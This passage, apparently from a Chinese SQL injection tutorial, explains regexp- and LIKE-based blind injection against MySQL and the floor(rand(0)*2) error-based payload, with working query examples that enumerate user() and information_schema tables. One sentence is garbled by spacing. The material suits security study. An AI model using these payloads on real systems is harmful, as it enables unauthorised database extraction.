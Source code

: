 正则注入介绍：[http://www.cnblogs.com/lcamry/articles/5717442.html](http://www.cnblogs.com/lcamry/articles/5717442.html)

用法介绍：select user() regexp '^\[a-z\]';

Explain：正则表达式的用法，user()结果为root，regexp为匹配root的正则表达式。

第二位可以用select user() regexp '^ro'来进行。

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811230319906-726420334.png)

当正确的时候显示结果为1，不正确的时候显示结果为0.

示例介绍：

I select \* from users where id=1 and 1=(if((user() regexp '^r'),1,0));

IIselect \* from users where id=1 and 1=(user() regexp'^ri');

通过if语句的条件判断，返回一些条件句，比如if等构造一个判断。根据返回结果是否等于0或者1进行判断。

IIIselect \* from users where id=1 and 1=(select 1 from information\_schema.tables where table\_schema='security' and table\_name regexp '^us\[a-z\]' limit 0,1);

这里利用select构造了一个判断语句。我们只需要更换regexp表达式即可

'^u\[a-z\]' -> '^us\[a-z\]' -> '^use\[a-z\]' -> '^user\[a-z\]' -> FALSE

如何知道匹配结束了？这里大部分根据一般的命名方式（经验）就可以判断。但是如何你在无法判断的情况下，可以用table\_name regexp '^username ′ 来 进 行 判 断 。 是 从 开 头 进 行 匹 配 ， 是从结尾开始判断。更多的语法可以参考mysql使用手册进行了解。

好，这里思考一个问题？![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811230320531-393960428.png)table\_name有好几个，我们只得到了一个user，如何知道其他的？

这里可能会有人认为使用limit 0，1改为limit 1,1。

但是这种做法是错误的，limit作用在前面的select语句中，而不是regexp。那我们该如何选择。其实在regexp中我们是取匹配table\_name中的内容，只要table\_name中有的内容，我们用regexp都能够匹配到。因此上述语句不仅仅可以选择user，还可以匹配其他项。

▲like匹配注入

和上述的正则类似，mysql在匹配的时候我们可以用ike进行匹配。

用法：select user() like 'ro%'

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811230321765-1836175658.png)

## **2：基于报错的SQL盲注------构造payload让信息通过错误提示回显出来**

▲Select 1,count(\*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)\*2))a from information\_schema.columns group by a;

//explain:此处有三个点，一是需要concat计数，二是floor，取得0 or 1，进行数据的重复，三是group by进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时重复造成的错误。也有解释为mysql 的bug 的问题。但是此处需要将rand(0)，rand()需要多试几次才行。

以上语句可以简化成如下的形式。

select count(\*) from information\_schema.tables group by concat(version(),floor(rand(0)\*2))
